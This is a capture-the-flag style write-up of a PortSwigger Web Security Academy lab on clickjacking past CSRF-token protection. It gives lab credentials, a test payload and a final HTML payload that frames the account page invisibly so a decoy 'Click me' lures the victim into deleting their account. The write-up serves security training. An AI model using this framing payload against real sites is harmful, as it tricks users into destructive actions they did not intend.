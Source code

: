 # Basic clickjacking with CSRF token protection
# Objective
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word `click` on a decoy website. To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Test payload

```html
<body>
	<style>
    iframe {
        position:relative;
        width: 1000;
        height: 600;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:510;
        left:60;
        z-index: 1;
    }
    </style>

    <div>Test me</div>
    <iframe src="https://0ace004a03c816d98106d4cc00cb00fc.web-security-academy.net/my-account?"></iframe>
</body>
```
|![](Images/image-1.png)|
|:--:| 
| *Target - Delete account button* |
|![](Images/image.png)|
| *Overlayed websites - testing aligment and position of the "Test me" text* |

## Exploitation
In order to solve the lab the following steps must be completed:
- Create payload aligning the `<div>` (with text `Click me`) with delete acount button.
- `Store` the payload
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

Final exploit:
```html
<body>
	<style>
    iframe {
        position:relative;
        width: 1000;
        height: 600;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:510;
        left:60;
        z-index: 1;
    }
    </style>

    <div>Click me</div>
    <iframe src="https://0ace004a03c816d98106d4cc00cb00fc.web-security-academy.net/my-account"></iframe>
</body>
```
